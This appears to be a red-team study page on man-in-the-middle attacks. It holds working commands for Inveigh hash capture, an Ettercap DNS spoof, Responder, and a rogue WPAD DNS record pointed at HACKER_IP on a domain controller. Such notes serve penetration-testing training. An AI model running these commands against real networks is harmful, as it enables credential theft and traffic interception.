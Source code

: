 # Man-in-the-middle attack

<div class="row row-cols-lg-2"><div>

A Man-in-the-middle <small>(M-I-T-M)</small> design an attack where an attacker seats between clients and their target server.

* They fooled the client and made them believe they are the 'server'
* They are able to access and maybe edit/drop every message

The hacker will most likely be able to read hashes or credentials sent over the network allowing them to compromise more accounts 🔑.
</div><div>

See also: [LLMNR/NBT-NS Poisoning](/cybersecurity/red-team/s2.discovery/techniques/network/poisoning.md).
</div></div>

<hr class="sep-both">

## Common tools

<div class="row row-cols-lg-2"><div>

#### Inveigh

[![active_directory_enumeration_attacks](../../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

[Inveigh](https://github.com/Kevin-Robertson/Inveigh) <small>(2.7k ⭐)</small> is a M-I-T-M tool on Windows.

The PS1 script is deprecated:

```ps
PS> Import-Module .\Inveigh.ps1
PS> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

You can use the executable if you have admin privileges:

```ps
$ wget https://github.com/Kevin-Robertson/Inveigh/releases/download/v2.0.10/Inveigh-net7.0-win-x64-trimmed-single-v2.0.10.zip -O Inveigh.zip
$ unzip Inveigh.zip
PS> .\Inveigh.exe
...
HELP<cr>
PROMPT> GET NTLMV2UNIQUE
PROMPT> GET NTLMV2USERNAMES
```
</div><div>

#### Ettercap

[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

[Ettercap](https://github.com/Ettercap/ettercap) <small>(2.5k ⭐)</small> is a M-I-T-M tool.

```shell!
$ cat /etc/ettercap/etter.dns
example.com      A   X.X.X.X
*.example.com    A   X.X.X.X
```

* Navigate to `Hosts > Scan for Hosts`
* Edit the host configuration
* Navigate to `Plugins > Manage Plugins`
* Active to a `dns_spoof` attack.
</div></div>

<hr class="sep-both">

## WPAD rogue proxy server

[![windows_privilege_escalation](../../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![active_directory_enumeration_attacks](../../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

The Web Proxy Auto-Discovery (WPAD) Protocol is used by web browsers to automatically find the web proxy on the network.

Clients will send a WPAD query to look for the proxy server. The server responds with the URL to the proxy configuration file (`wpad.dat`).

Hackers can set up a rogue WPAD proxy server and intercept network traffic of the hosts that got fooled. WPAD is not enabled by default in most web browsers aside from Internet Explorer.
</div><div>

We can use [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md):

```ps
$ sudo responder -I tun0 -wdF -b
```

We can edit the configuration of a compromised host:

```ps
PS> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.example.com
PS> Add-DnsServerResourceRecordA -Name wpad -ZoneName example.com -ComputerName dc01.example.com -IPv4Address HACKER_IP
```
</div></div>